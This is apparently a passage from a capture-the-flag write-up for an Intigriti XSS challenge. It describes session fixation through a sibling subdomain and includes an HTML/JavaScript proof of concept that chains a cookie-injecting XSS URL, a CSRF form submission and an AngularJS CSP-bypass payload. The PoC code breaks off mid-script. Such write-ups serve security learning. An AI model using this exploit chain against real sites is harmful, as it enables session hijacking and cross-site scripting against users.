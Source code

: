 Here is a working PoC: https://randomstuffhuli.s3.amazonaws.com/0822-intigriti/exploit-intigriti.html

But the css injection server is a bit buggy, and I have no plan to maintain it, so I will shutdown the server in a week.

## Bonus

Besides stealing CSRF token, there is another tricky and a bit cheated way to do CSRF without stealing it.

Since we have control over other sub domains, for example, `challenge-0422.intigriti.io`, we can use session fixation to fix session id and CSRF token.

1. Get a session id and CSRF token from server, assumed it's `sid123` and `token123`
2. Run `document.cookie="PHPSESSID=sid123;Domain=intigriti.io;Max-Age=10;Secure";` in subdomain
3. Do CSRF with CSRF token: `token123`

PoC:

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="robots" content="noindex">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
</head>

<body>
  <button onclick="run()">click me to start</button>
  <form id=previewForm method="POST" target="abc">
    <input name="csrf-token" value="">
    <input name="desc" value="">
    <input name="name" value="XSS">
  </form>
  <script>
    const baseUrl = 'https://challenge-0822.intigriti.io/challenge'
    
    // get a pair of seesion id and csrf token first
    const sid = '8341g3mkhlpojfup4k6keu3uls'
    const token = '2d414a262b5b02643a364a23a5f67dd7'

    function run() {
         window.open(`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=1#%0adocument.cookie='PHPSESSID=${sid};Domain=intigriti.io;Max-Age=10;Secure;'`, 'abc')

        setTimeout(() => {
          doXSS(token)
        }, 2000)
    }
   

    function doXSS(csrfToken) {
      let xssPayload = `https://www.youtube.com/embed/srcdoc=<script/src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"><\/script><script/src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"><\/script><div/ng-app/ng-csp>{{[].empty.call().alert([].empty.call().document.domain)}}</div>.png
`
      document.querySelector('#previewForm input[name=desc]').setAttribute('value', xssPayload)
      document.querySelector('#previewForm input[name=csrf-token]').setAttribute('value', csrfToken)
      previewForm.action = baseUrl + '/preview.php'
      previewForm.submit()
```